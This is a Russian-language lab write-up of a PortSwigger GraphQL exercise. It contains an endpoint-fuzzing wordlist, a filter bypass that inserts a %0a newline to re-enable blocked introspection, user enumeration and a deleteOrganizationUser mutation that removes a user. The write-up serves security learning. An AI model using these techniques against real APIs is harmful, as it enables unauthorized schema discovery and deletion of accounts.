



лаба https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint

есть есть некая скрытая точка и она защищена от самоанализа 
нужно ее найти и удалить карлоса

-----
открыл карту сайта - и нигде не вижу эндпоинта для подобных запросов




-------
сканер inQl - тоже соответственно - не получится запустить

------
код страниц тоже пересмотрел - ничего не нашел

-----
пробую patch traversal

----

запускаю турбо интрудер
на пейлоад
```
/graphql  
/graphiql  
/playground  
/console  
/query  
/gql  
/api  
/api/graphql  
/graphql/api  
/graphql/console  
/graphql/graphql  
/graphql/explorer  
/graphql/playground  
/graphql-devtools  
/graphql-explorer  
/graphql-playground

версии с версионированием  
/v1/graphql  
/v2/graphql  
/v3/graphql  
/v1/graphiql  
/v2/graphiql  
/v3/graphiql

php варианты  
/graphql.php  
/index.php?graphql

другие возможные  
/graph  
/graphql/private  
/graphql/internal  
/graphql/graphiql  
/graphql/console  
/graphql/v1  
/graphql/v2

если стандартные не работают, пробуй ещё такие  
/gql/v1  
/gql/v2  
/query/v1  
/query/v2  
/api/v1/graphql  
/api/v2/graphql  
/api/graphql/v1  
/api/graphql/v2
```

обнаружил - что запрос /api имеет ответ 
400 `"Query not present"` 

а остальные запросы
404  "Not Found"

отлично 
это указывает на то, что в этом расположении может быть конечная точка GraphQL




-----

запускаю сканер inQl в бурп 
по ссылке с апи 
`https://0a4700e304df53978228798300d400c0.web-security-academy.net/api`
сканер ниччего не выдал
а сам сайт лабы упал намертво и даже не желает перезапускаться

------

буду сейчас пробовать отправить какие - либо параметры по /api и POST запрос
```json
{"query":"{__typename}"}

{"query":"query{__typename}"}

{"query":"{ __schema { types { name fields { name } } } }"}

и соответтвенно 
изменю стандартный  GET /api HTTP/2 на POST /api HTTP/2

ОТВЕТ 405
"Method Not Allowed"

```

а если гет запрос то ответ
400 `"Query not present"`
это классическая ошибка GraphQL

---

возможно - он ждет Query


запрос
```json 
GET /api?query HTTP/2
Host: 0a16002c03977588808c1c7b0005008e.web-security-academy.net
Cookie: session=vW6ATD8CKPYbTAS6yB6QYMKjK8bVr394
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Length: 61


{"query":"{ __schema { types { name fields { name } } } }"}
```
ответ
```json 
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 208

{
  "errors": [
    {
      "locations": [
        {
          "line": 1,
          "column": 1
        }
      ],
      "message": "Invalid syntax with offending token '<EOF>' at line 1 column 1"
    }
  ]
}

---

но если отправить гет запрос то ответ снова "Method Not Allowed" 405
```
----------
------------
------
видимо - работает только гет запрос, а значит нужно сами параметры передавать в URL

GET /api?query={__schema{types{namefields{name}}}} HTTP/2


запрос
```json 
GET /api?query={__schema{types{namefields{name}}}} HTTP/2
Host: 0a16002c03977588808c1c7b0005008e.web-security-academy.net
Cookie: session=vW6ATD8CKPYbTAS6yB6QYMKjK8bVr394
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Length: 0
```
ответ 200! 🟢
```json 
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 156

{
  "errors": [
    {
      "locations": [],
      "message": "GraphQL introspection is not allowed, but the query contained __schema or __type"
    }
  ]
}
```

ошибка introspection is not allowed 
значит - introspection - отключен! (как это и должно быть в продакшн)

попробую выполнить обфускацию 
для GET /api?query={__schema{types{namefields{name}}}}

пробовал обфусцировать - просто url кодированием - по разному - не вышло ничего

-------

вот такой запрос
GET /api?query={%5F%5F%73%63%68ema} HTTP/2

ответ
```json

{
  "errors": [
    {
      "extensions": {},
      "locations": [
        {
          "line": 1,
          "column": 2
        }
      ],
      "message": "Validation error (SubselectionRequired@[__schema]) : Subselection required for type '__Schema!' of field '__schema'"
    }
  ]
}
```


GET /api?query=%7B__schema%7Btypes%7Bname%7D%7D%7D HTTP/2
ответ 
```json
{
  "errors": [
    {
      "locations": [],
      "message": "GraphQL introspection is not allowed, but the query contained __schema or __type"
    }
  ]
}
```
короче говоря - introspection воспользоваться будет невозможно! он тупо заблокирован

-----

{"query":"%20__type(name:%20\"BlogPost\")%20{%20name%20fields%20{%20name%20}%20}%20}"}  - нет

------
запрос 
GET /api?query={"query":"{%20getAllBlogPosts%20{%20id%20title%20summary%20image%20}%20}"} HTTP/2

ответ 200
```json

{
  "errors": [
    {
      "locations": [
        {
          "line": 1,
          "column": 2
        }
      ],
      "message": "Invalid syntax with offending token '\"query\"' at line 1 column 2"
    }
  ]
}
```

-------
а так 
GET /api?query="{%20getAllBlogPosts%20{%20id%20title%20summary%20image%20}%20}" HTTP/2

```json
{
  "errors": [
    {
      "locations": [
        {
          "line": 1,
          "column": 1
        }
      ],
      "message": "Invalid syntax with offending token '\"{ getAllBlogPosts { id title summary image } }\"' at line 1 column 1"
    }
  ]
}
```

-----
GET /api?query={getAllBlogPosts{id,title,summary,image}} HTTP/2
ответ 
```
"Validation error (FieldUndefined@[getAllBlogPosts]) : Field 'getAllBlogPosts' in type 'query' is undefined"
```

---------

запрос
```
GET /api?query={__typename} HTTP/2
```
ответ
```
{
  "data": {
    "__typename": "query"
  }
}
```

мне что ? угадывать пути ? что за бред....


запустил турбо интрудер
```пейлоады
GET /api?query={posts{id,title}} HTTP/2
GET /api?query={getPosts{id,title}} HTTP/2
GET /api?query={allPosts{id,title}} HTTP/2
GET /api?query={blogPosts{id,title}} HTTP/2
GET /api?query={post(id:1){id,title}} HTTP/2
GET /api?query={getPost(id:1){id,title}} HTTP/2
GET /api?query={users{id,username}} HTTP/2
GET /api?query={getUser(id:1){id,username}} HTTP/2
```




вот такой запрос 
GET /api?query={getUser(id:1){id,username}} HTTP/1.1

дал ответ
```json
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
X-Content-Encoding: gz
Connection: close
Content-Length: 85

{
  "data": {
    "getUser": {
      "id": 1,
      "username": "administrator"
    }
  }
}
```

-----
GET /api?query={getUser(id:1){id,username, password}}

```
"Validation error (FieldUndefined@[getUser/password]) : Field 'password' in type 'User' is undefined"
    }
```

------

как мне удалить карлоса? я должен выдумать путь ? мои нервы на пределе!

найду сперва id карлоса несчастного этого:
GET /api?query={getUser(id:3){id,username}} HTTP/2
ответ 
```json
{
  "data": {
    "getUser": {
      "id": 3,
      "username": "carlos"
    }
  }
}
```

--------

мне в любом случае - нужна схема!

нужно этот запрос обфусцировать 
`{"query":"{ __schema { types { name fields { name } } } }"}`

```json

{"query":"{ __schema { types { name fields { name } } } }"}
{"query":"{%20__schema%20{%20types%20{%20name%20fields%20{%20name%20}}}}"}
-------------
ответ
"Самоанализ GraphQL запрещен, но запрос содержал __schema или __type"

-------
пробую обфусцировать  __schema

одинарное url блокируется

двойное url кодир не помогает - ошибка  ( Invalid syntax with ANTLR error 'token recognition error at: '%'' at line 1 column 5 )

-------------------------------

ПОДСМОТРЕЛ РЕШЕНИЕ _ ДОБАВЛЯЮТ СИМВОЛ ПЕРЕНОСА СТРОКИ %0a
пробую
%0a

запрос
GET /api?query={%20__schema%0a{%20types%20{%20name%20fields%20{%20name%20}}}} HTTP/2
------------------------------
ответ

HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 4068

{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Boolean",
          "fields": null
        },
        {
          "name": "DeleteOrganizationUserInput",
          "fields": null
        },
        {
          "name": "DeleteOrganizationUserResponse",
          "fields": [
            {
              "name": "user"
            }
          ]
        },
        {
          "name": "Int",
          "fields": null
        },
        {
          "name": "String",
          "fields": null
        },
        {
          "name": "User",
          "fields": [
            {
              "name": "id"
            },
            {
              "name": "username"
            }
          ]
        },
        {
          "name": "__Directive",
          "fields": [
            {
              "name": "name"
            },
            {
              "name": "description"
            },
            {
              "name": "isRepeatable"
            },
            {
              "name": "locations"
            },
            {
              "name": "args"
            }
          ]
        },
        {
          "name": "__DirectiveLocation",
          "fields": null
        },
        {
          "name": "__EnumValue",
          "fields": [
            {
              "name": "name"
            },
            {
              "name": "description"
            },
            {
              "name": "isDeprecated"
            },
            {
              "name": "deprecationReason"
            }
          ]
        },
        {
          "name": "__Field",
          "fields": [
            {
              "name": "name"
            },
            {
              "name": "description"
            },
            {
              "name": "args"
            },
            {
              "name": "type"
            },
            {
              "name": "isDeprecated"
            },
            {
              "name": "deprecationReason"
            }
          ]
        },
        {
          "name": "__InputValue",
          "fields": [
            {
              "name": "name"
            },
            {
              "name": "description"
            },
            {
              "name": "type"
            },
            {
              "name": "defaultValue"
            },
            {
              "name": "isDeprecated"
            },
            {
              "name": "deprecationReason"
            }
          ]
        },
        {
          "name": "__Schema",
          "fields": [
            {
              "name": "description"
            },
            {
              "name": "types"
            },
            {
              "name": "queryType"
            },
            {
              "name": "mutationType"
            },
            {
              "name": "directives"
            },
            {
              "name": "subscriptionType"
            }
          ]
        },
        {
          "name": "__Type",
          "fields": [
            {
              "name": "kind"
            },
            {
              "name": "name"
            },
            {
              "name": "description"
            },
            {
              "name": "fields"
            },
            {
              "name": "interfaces"
            },
            {
              "name": "possibleTypes"
            },
            {
              "name": "enumValues"
            },
            {
              "name": "inputFields"
            },
            {
              "name": "ofType"
            },
            {
              "name": "specifiedByURL"
            }
          ]
        },
        {
          "name": "__TypeKind",
          "fields": null
        },
        {
          "name": "mutation",
          "fields": [
            {
              "name": "deleteOrganizationUser"
            }
          ]
        },
        {
          "name": "query",
          "fields": [
            {
              "name": "getUser"
            }
          ]
        }
      ]
    }
  }
}

аллилуя - обошел проверку на  Introspection

```

теперь нужно сформировать запрсос на удаление карлоса (его йди = 3 )
есть метод mutation  с параметром еще метода deleteOrganizationUser
```json

{"query":"{ __schema%0a { types { name fields { name } } } }"}


	{"query":"{ mutation { deleteOrganizationUser } {karlos} }"}
	{"query":"{%20mutation%20{%20deleteOrganizationUser%20}%20{karlos}%20}"}
ответ ошибка 
"Invalid syntax with offending token '\"query\"' at line 1 column 2"

---------------------------------------------
mutation{deleteOrganizationUser(input:{id:3}){user{id}}}

сработало!!!! аллилуя!!!


```

лаба решена!!
`mutation{deleteOrganizationUser(input:{id:3}){user{id}}}`
и карлос удален!!

-------

## вывод


не было валидации! и я так и не понял, отключили ли они там самоанализ... непонятно! так как простая обфускация обошла облокировку самоанализа - это значит , что сам по себе самоанализ не был отключен

значит они надеялись на простую фильтрацию символов - тупо блокируя символы разные
и забыли учесть  СИМВОЛ ПЕРЕНОСА СТРОКИ %0a

нужно отрубать вообще нафиг  Introspection в продакте
ну а если все таки - нужен это самоанализ - тогда не давать доступа к нему без авторизации админом!